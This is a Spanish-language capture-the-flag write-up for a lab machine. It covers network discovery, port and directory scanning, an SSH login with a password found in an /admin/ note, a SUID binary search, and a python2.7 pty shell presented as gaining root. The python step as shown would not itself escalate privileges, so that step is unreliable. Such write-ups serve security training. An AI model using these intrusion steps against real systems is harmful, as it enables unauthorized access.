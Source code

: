 Primero Obtenemos la IP de nuestra maquina atacante:
```
ifconfig
```

Utilizando " netdiscover " procedemos a encontrar los equipos conectados en la red:
```
sudo netdiscover -r 192.168.1.0/24
```

Una ves encontrada la IP de la maquina victima comenzamos a realizar un escaneo de puertos, utilizaremos " nmap ":
```
sudo nmap -sV -A -T5 192.168.1.30
```
![Texto alternativo](imagenes/nmap.png)


Encontramos que tenemos los puertos:
- 22 corriendo un servicio " ssh "
- 80 corriendo un servicio " web - apache "
Revisamos en el navegador con la IP de la maquina victima para ver si tiene desplegado un sitio web.
![Texto alternativo](imagenes/paguina_web.png)

Revisamos el código de la paguina web:
![Texto alternativo](imagenes/codigo_web.png)

Procedemos a realizar una enumeración de directorios con la IP de la victima utilizando la herramienta " dirsearch ".
```
dirsearch -u http://192.168.1.12/
```
![Texto alternativo](imagenes/dirsearch.png)

vemos una repuesta " /admin/ " al cual entramos para revisar y encontramos una nota, donde el usuario mensiona de una contraseña " 12345ted123 " y podemos decir que " ted " puede ser nombre de usuario.
![Texto alternativo](imagenes/nota.png)

Con esta información intentaremos conectarnos por " ssh "
- contraseña: 12345ted123
```
ssh ted@192.168.1.12
```
![Texto alternativo](imagenes/ssh.png)

Buscamos los archivos que tiene permisos el usuario ted para ver si podemos encontrar un forma de poder aprovechar la escalabilidad de privilegios " SUID Binaries ". 
```
find / -perm -u=s -type f 2>/dev/nul
```
![Texto alternativo](imagenes/files.png)

Podemos usar " python2.7 " para abrir una shell interactiva y elevar privilegios con un pequeño programa. 
```
python2.7 -c 'import pty;pty.spawn("/bin/sh")'
```
![Texto alternativo](imagenes/root.png)

Una ves siendo root buscaremos la flag /root/flag.txt:
- Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}
![Texto alternativo](imagenes/flag.png)






















